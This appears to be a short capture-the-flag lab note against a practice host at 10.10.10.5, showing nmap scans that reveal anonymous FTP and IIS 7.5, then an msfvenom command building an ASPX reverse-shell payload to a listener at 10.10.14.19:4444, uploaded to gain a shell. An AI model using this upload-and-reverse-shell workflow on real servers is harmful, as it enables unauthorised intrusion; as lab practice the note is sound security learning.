


```
C:\home\kali> nmap -sC -sV -Pn 10.10.10.5 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-16 03:41 EST
Stats: 0:00:08 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 3.50% done; ETC: 03:45 (0:03:41 remaining)
Nmap scan report for 10.10.10.5
Host is up.
All 1000 scanned ports on 10.10.10.5 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.00 seconds

```

after a reset

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-16 04:06 EST
Nmap scan report for 10.10.10.5
Host is up (0.21s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

it has ftp on and th eiis servr so it should work similarly ot the other machines we have



was able to get a normal shell thorugh uploading meterpreter

`msfvenom --platform windows -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=4444 -f aspx -o vv.aspx `

with msfconsole however this was not giving me a good enough answer

privilege escalate using exploitation but the server isnt stable





